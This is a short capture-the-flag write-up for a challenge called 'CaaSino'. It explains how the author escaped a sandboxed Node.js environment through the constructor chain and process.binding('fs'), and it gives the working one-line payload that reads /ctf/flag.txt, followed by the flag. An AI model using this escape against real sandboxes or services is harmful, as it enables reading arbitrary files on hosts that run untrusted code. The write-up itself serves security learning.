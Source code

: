 # CaaSino


Sandboxed NodeJS environment

We figured out we could use this.constructor.constructor("return this.process")() to run more arbritrary JS, but the require function was disabled.

However, we could use this.process.bindings to import the original C++ functions. With some reference to https://gist.github.com/phra/51f73898df729789aff741c6ea91d294 and the node JS source code, I came up with:

`this.constructor.constructor("b = Buffer.allocUnsafe(8192);this.process.binding('fs').read(this.process.binding('fs').open('/ctf/flag.txt', 0, 0600, 0, 0), b, 0, 4096, 0, 0, 0); return b")().toString()`


- Define a buffer of size 8192


- Call read() on a file descriptor provided by open('/ctf/flag.txt') in readonly, and read that into the buffer, then return


The zeros are where the docs specified 'undefined' and 'ctf' and luckily this didn't matter. We get the flag(and a bunch of junk)
#### Flag:flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}

